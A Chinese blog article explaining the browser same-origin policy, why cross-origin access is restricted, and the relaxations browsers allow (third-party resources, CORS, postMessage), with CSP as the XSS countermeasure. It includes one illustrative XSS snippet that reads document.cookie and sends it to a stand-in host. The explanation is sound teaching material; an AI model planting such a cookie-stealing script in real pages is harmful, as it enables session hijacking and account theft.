 ```yaml
---
title: 浏览器为何限制跨域访问？
categories:
 - Network
tags:
 - 浏览器安全
 - 跨域
 - 同源策略
 - Same Origin Policy
date: 2022-10-09
sidebar: 'auto'
---
```


## 前言
假如页面没有安全策略：
* Web是开放的，任何资源可以介入，自己网站可以加载并执行他人网站的脚本文件、图片、音视频等资源，甚至下载其他站点的可执行文件。
* 页面上行为没有任何限制造成无序混沌的局面、不可控。

打开一个银行站点，又打开一个恶意站点，恶意站点将可以做很多事情：
* 修改银行站点的DOM、CSSOM等信息；
* 在银行站点内部插入JavaScript脚本；
* 劫持用户登录的用户名和密码；
* 读取银行站点的Cookie、IndexDB等数据；
* 将信息上传至自己的服务器，伪造转账请求；

**没有安全策略的Web，我们是没有隐私的，所以需要安全策略来保障隐私和数据的安全。**<br/>
:::tip
页面中最基础、最核心的安全策略：同源策略（Same-origin policy）。
::: 

## 同源策略
两个URL => 协议（http）、域名（mobs.fun）、端口（80）相同 => URL同源。<br/>
浏览器默认同源之间可以**相互访问资源和操作DOM**，不同源之间若想要相互访问资源或者操作DOM，会有**一套基础的安全策略的制约**（同源策略）。<br/>
同源策略三个层面：
1. DOM层面 => 同源策略限制了不同源的JavaScript脚本对当前站点DOM对象读和写的操作。
2. 数据层面 => 同源策略限制了不同源的站点读取当前站点的Cookie、IndexDB、LocalStorage等数据。无法通过第二个页面的[opener](https://developer.mozilla.org/zh-CN/docs/Web/API/Window/opener)来访问第一个页面中的Cookie、IndexDB、LocalStorage等数据。
3. 网络层面 => 同源策略限制了通过[XMLHttpRequest](../javascript/XMLHttpRequest.html)等方式将站点的数据发送给不同源的站点。

## 安全性和便利性的权衡
同源策略隔离了不同源的DOM、数据、网络通信，实现Web页面的安全性。<br/>
但是安全性和便利性是相互对立的，不同的源之间绝对隔离，可以说是最安全的措施，但这会让Web项目变得难以开发和使用。所以需要做出权衡，**出让一些安全性来满足灵活性。**<br/>
浏览器出让的同源策略的安全性有哪些：
1. 页面中可以嵌入第三方资源
2. 跨域资源共享
3. 跨文档消息机制

### 页面中可以嵌入第三方资源
同源策略要让一个页面的所有资源都来自于同一个源，也就是要将该页面的所有HTML文件、JavaScript文件、CSS文件、图片等资源都部署在同一台服务器上。这其实违背了Web的初衷，也带来了很多限制。<br/>
比如我们需要引用不同CDN上的资源，域名其实是不同的，我们是需要同源策略支持页面任意引用外部文件，所以最初的浏览器都是支持引用外部资源文件的。<br/>
**带来的弊端：**
* HTML文件注入恶意JavaScript脚本
* XSS攻击。
```js
function onClick(){
 // 恶意脚本读取Cookie数据，并将其作为参数添加至恶意站点尾部。
 // 当打开该恶意页面时，恶意服务器就能接收到当前用户的Cookie信息。
 let url = `http://test.com?cookie=${document.cookie}`
 open(url)
}
onClick()
```
解决XSS攻击，浏览器中引入了[内容安全策略](https://developer.mozilla.org/zh-CN/docs/Web/HTTP/CSP)（CSP），CSP的核心思想是**让服务器决定浏览器能够加载哪些资源，让服务器决定浏览器是否能够执行内联JavaScript代码**。

### 跨域资源共享
一般情况，通过XMLHttpRequest or Fetch来请求其他站点的资源，同源策略会阻止向其发出请求。<br/>
为了解决这个问题，引入了[跨域资源共享](https://developer.mozilla.org/zh-CN/docs/Web/HTTP/CORS)（CORS），使用该机制可以进行跨域访问控制，从而使跨域数据传输得以安全进行。
### 跨文档消息机制
同源策略下，如果两个页面不同源的，则无法相互操纵DOM。实际情况下，经常需要两个不同源的DOM之间进行通信，所以浏览器中又引入了跨文档消息机制，可以通过
JavaScript接口[window.postMessage](https://developer.mozilla.org/zh-CN/docs/Web/API/Window/postMessage)来进行不同源的DOM通信。

## 总结
* 同源策略隔离不同源的DOM、数据、网络通信，实现Web页面的安全性。<br/>

目前在安全性和便利性权衡下的安全策略特点：
1. 页面可以引用第三方资源 => 暴露了很多安全问题（XSS攻击）=> 在此基础上引入了CSP来限制其自由程度。 
2. 使用XMLHttpRequest和Fetch是无法直接进行跨域请求的 => 浏览器在其基础上引入了**跨域资源共享策略**，让其安全地进行跨域操作。
3. 两个不同源的DOM不能相互操纵 => 浏览器中实现了**跨文档消息机制**让其安全地通信